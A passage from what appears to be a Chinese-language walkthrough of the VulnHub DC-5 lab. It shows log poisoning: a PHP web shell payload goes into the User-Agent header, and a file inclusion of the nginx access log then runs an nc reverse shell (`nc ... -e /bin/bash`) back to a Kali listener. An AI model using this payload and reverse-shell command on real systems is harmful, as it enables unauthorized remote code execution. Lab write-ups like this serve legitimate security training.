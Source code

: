 ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/9.png)

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`

kali 开启 nc 监听
```bash
nc -nlvp 4444
```

访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.141.134 4444 -e /bin/bash` 测试

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/10.png)

弹回来了

---